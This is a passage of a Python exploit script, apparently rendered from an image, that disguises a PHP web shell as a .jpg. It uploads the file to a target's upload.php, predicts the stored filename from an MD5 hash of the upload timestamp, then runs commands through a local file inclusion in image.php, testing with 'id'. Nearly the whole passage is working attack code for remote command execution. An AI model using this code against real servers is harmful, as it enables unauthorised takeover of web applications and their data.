 ```py
    # Generate temporary file with pyaload
    f = tempfile.NamedTemporaryFile(suffix=".jpg")
    if args.cmd:
        file_content = f"""<?php system('{cmd}'); ?>""".encode('UTF-8')
    else:
        file_content = "<?php system($_POST['cmd']); ?>".encode('UTF-8')
    f.write(file_content)
    f.seek(0)
    # print("[+] Name of the file is:", f.name.rsplit('/')[-1])

    # Upload file
    global input_file
    if args.file:
        if args.file.lower().endswith('.jpg'):
            input_file = args.file
        else:
            exit('[!] Only .jpg supported!')
    else:
        input_file = f.name
    with open(input_file, 'rb') as f:
        upload_rspn = s.post(f"{url}/upload.php", files={'fileToUpload': f})
    print("[+]", upload_rspn.text)

    # Create epoch timestamp of uploaded time
    print('[+] Upload time: ', upload_rspn.headers['date'])
    dt = parser.parse(upload_rspn.headers['date'])
    time_epoch = calendar.timegm(dt.utctimetuple())
    print('[+] epoch timestamp: ', time_epoch)

    # Create filename
    hash_part = '$file_hash' + str(time_epoch)
    file_name = hashlib.md5(hash_part.encode('utf-8')).hexdigest() + "_" + f.name.rsplit('/')[-1]
    f.close()
    print("[+] Uploaded file name:", file_name)
    if args.file:
        exit(print("[+] File location: ", f"{url}/image.php?img=images/uploads/{file_name}"))
    else:
        # Request uploaded file with lfi
        if args.cmd:
            check_file = s.post(f"{url}/image.php?img=images/uploads/{file_name}")  # php://filter/read=/resource=
            print("[+] Payload response -\n", check_file.text)
        else:
            print("[+] PHP HTTP-POST web shell uploaded:", f"curl \"{url}/image.php?img=images/uploads/{file_name}\" --data \"cmd=id\"")
            print("[+] Testing web shell -\n", s.post(f"{url}/image.php?img=images/uploads/{file_name}", data={"cmd": "id"}).text)


if __name__ == "__main__":
    try:
        if args.cmd and args.file:
            exit('[!] Both arguments not allowed at once!')
        elif args.cmd:
            uploadFile(args.cmd)
        elif args.file:
            uploadFile()
        else:
            uploadFile()
    except Exception as e:
        if args.T:
            print(traceback.format_exc())
        else:
```